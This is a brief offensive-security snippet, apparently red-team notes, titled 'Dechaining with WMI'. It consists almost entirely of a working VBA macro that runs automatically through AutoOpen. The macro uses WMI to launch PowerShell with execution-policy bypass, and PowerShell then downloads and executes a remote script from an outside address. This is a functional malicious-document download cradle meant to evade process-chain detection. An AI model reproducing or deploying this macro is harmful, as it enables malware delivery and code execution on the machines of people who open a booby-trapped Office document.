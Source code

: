 # Dechaining with WMI

#### Have WMI to create a PowerShell Process to execute a Download Cradle
```vba
Sub MyMacro()
    Dim strArg As String
    strArg = "powershell -exec bypass -nop -c iex((new-object system.net.webclient).downloadstring('http://192.168.1.1/run.txt'))"
    GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```


